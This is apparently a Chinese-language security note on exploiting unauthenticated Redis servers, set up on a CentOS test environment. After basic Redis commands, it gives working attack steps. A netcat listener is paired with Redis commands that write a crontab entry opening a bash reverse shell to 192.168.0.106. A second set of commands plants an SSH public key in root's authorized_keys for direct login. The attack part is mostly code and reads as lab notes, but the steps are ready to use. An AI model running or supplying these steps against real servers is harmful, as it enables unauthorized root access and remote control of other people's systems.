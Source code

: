 ```bash

# 设置备份文件名
config set dbfilename filename

# 设置键值对
set keyname value
# 获取键值对
get keyname

# 持久化(保存到磁盘)
save
```


## 测试
#### 一、写文件(利用未授权访问)
测试环境：centos

###### 1.crontab计划任务反弹shell
>root权限运行redis

1.本机监听端口
```bash
nc -lvvp 4444
```

2.利用redis生成计划任务配置文件
```bash
set -.- "\n\n\n* * * * * bash -i >& /dev/tcp/192.168.0.106/5555 0>&1\n\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save
```

3.本机获得反弹shell

**Note:**
当目标主机为centos时可以反弹shell, 而ubuntu和debian均无法成功反弹shell。
原因：由于redis向任务计划文件里写内容出现乱码而导致的语法错误，而乱码是避免不了的，centos会忽略乱码去执行格式正确的任务计划。



###### 2.直接写入公钥
>root权限运行redis， 且目标主机开启了ssh密钥登录

```bash
# 本机先生成密钥
ssh-keygen -t rsa
# 公钥内容导入key.txt文件
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > key.txt

#
config set dir /root/.ssh/
config set dbfilename authorized_keys
set test6 "\n\n\nssh key\n\n\n ssh-rsa xxxxxxxxxxxxx" (公钥的值)
save

# 然后本机直接连接目标
ssh  -o StrictHostKeyChecking=no 192.168.0.100
```
